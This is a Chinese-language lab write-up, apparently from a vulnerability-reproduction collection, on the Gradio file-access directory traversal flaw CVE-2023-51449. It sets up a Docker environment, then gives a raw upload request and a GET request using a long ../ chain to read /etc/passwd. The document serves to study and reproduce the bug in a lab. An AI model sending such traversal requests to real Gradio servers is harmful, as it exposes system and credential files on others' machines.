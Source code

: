 # Gradio `file` 目录遍历漏洞（CVE-2023-51449）

Gradio 是一个用于创建机器学习模型交互式界面的 Python 库，通过 Gradio，可以快速地为模型构建一个可视化的、易于使用的 Web 界面，无需编写任何前端代码。

Gradio 4.11 及以下版本，在未启用身份验证时如果知道要查找的文件路径，就可以使用公共 URL 访问运行 Gradio 应用程序的机器上的任意文件（例如，如果演示是使用 `share=True` 创建的，或者在 Hugging Face Spaces 上创建的）。

参考链接：

+ https://github.com/gradio-app/gradio/pull/6833

+ https://github.com/gradio-app/gradio/tree/gradio%404.10.0

## 环境启动

执行如下命令启动 Gradio 环境：

```
docker compose up -d
```

启动成功后访问，默认没有身份验证。

```
http://your-ip:7860
```

## 漏洞复现

使用 upload 接口随便上传一段内容，需要获取到一个可访问的文件路径。

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--

```

![image-20250424134122049](1.png)

得到一个可访问的文件路径后使用 file 接口访问并使用目录遍历读取文件，即可成功读取。

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36 Edg/100.0.1185.36
Connection: close
Accept-Encoding: gzip
```

![image-20250424134351720](2.png)
